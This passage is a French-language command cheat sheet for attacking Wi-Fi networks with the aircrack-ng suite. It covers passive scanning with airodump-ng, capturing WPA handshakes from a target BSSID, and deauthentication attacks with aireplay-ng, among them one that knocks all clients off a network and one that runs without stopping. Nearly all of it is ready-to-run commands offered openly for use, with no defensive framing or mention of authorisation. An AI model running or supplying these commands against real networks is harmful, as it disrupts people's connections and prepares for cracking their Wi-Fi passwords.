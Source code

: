 ## 🔍 Reconnaissance et Découverte

### Scan des réseaux disponibles
```bash
# Scan passif des réseaux
sudo airodump-ng wlan0mon

# Scan sur canal spécifique
sudo airodump-ng -c 6 wlan0mon

# Scan avec filtrage par BSSID
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF wlan0mon

# Export en fichier
sudo airodump-ng -w scan_results wlan0mon
```

### Analyse détaillée
```bash
# Scan avec informations étendues
sudo airodump-ng --manufacturer wlan0mon

# Scan sur bande 5GHz
sudo airodump-ng --band a wlan0mon

# Scan toutes les bandes
sudo airodump-ng --band abg wlan0mon
```

## 🎯 Capture WPA Handshake

### Capture passive
```bash
# Capture handshake sur réseau spécifique
sudo airodump-ng -c [CHANNEL] --bssid [TARGET_BSSID] -w handshake wlan0mon

# Capture avec filtrage par client
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
```

### Déauthentification pour forcer handshake
```bash
# Déauth tous les clients
sudo aireplay-ng --deauth 10 -a [TARGET_BSSID] wlan0mon

# Déauth client spécifique
sudo aireplay-ng --deauth 5 -a [TARGET_BSSID] -c [CLIENT_MAC] wlan0mon

# Déauth continue
sudo aireplay-ng --deauth 0 -a [TARGET_BSSID] wlan0mon
```

